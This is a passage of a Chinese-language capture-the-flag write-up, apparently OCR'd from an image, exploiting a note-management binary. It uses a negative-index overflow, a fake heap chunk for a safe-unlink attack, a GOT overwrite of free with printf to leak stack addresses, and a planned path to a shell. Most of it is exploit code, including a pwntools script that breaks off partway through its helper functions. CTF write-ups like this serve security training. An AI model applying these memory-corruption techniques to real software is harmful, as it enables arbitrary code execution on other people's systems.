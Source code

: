 ```
```
首先創建8個note，然後edit note3使current_ptr指向note3，之後使用-1溢出note3
```
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')

edit(3,'a')
edit(-9223372036854775808,data);
```

我們使用的溢出數據是用於構造一個fake chunk來實現safe unlink的利用，具體的原理可以看這一章節的講解。

```
data = ''
data += p64(0) + p64(512+1) #fake chunk header
data += p64(0x6020e0-0x18) + p64(0x6020e0-0x10) #fake fd and bk
data += 'A'*(512-32)
data += p64(512) + p64(512+16)
```

之後釋放note4，note3與note4就會合並。note3_ptr會指向note0_ptr的位置。這樣我們通過不斷的修改note0_ptr的值和edit note0就可以實現任意地址寫數據。

但是題目沒有提供show功能，所以無法進行任意地址讀，也就無法泄漏數據。
這裏採用的辦法是把free的got表改爲printf的值，然後在bbs中一塊空白的區域寫入"%x"。
這樣當free這塊區域（這塊區域在ptr_array中，所以可以直接傳遞給free），就可以泄漏出棧中的數據。
通過棧中的libc地址求出system的地址就可以利用任意地址寫獲得shell

```
free(4)

edit(3,free_got)
edit(0,printf_plt)

edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
```
完成的exp如下

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
def malloc(size,data):
    print conn.recvuntil('>>')
    conn.sendline('1')
    print conn.recvuntil('1024)')
    conn.sendline(str(size))
    print conn.recvuntil('content:')
    conn.sendline(data)
    print conn.recvuntil('\n')
def edit(id,data):
    print conn.recvuntil('>>')
    conn.sendline('3')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('ent:')
    conn.sendline(data)
    print conn.recvuntil('success')
def free(id):
    print conn.recvuntil('>>')
```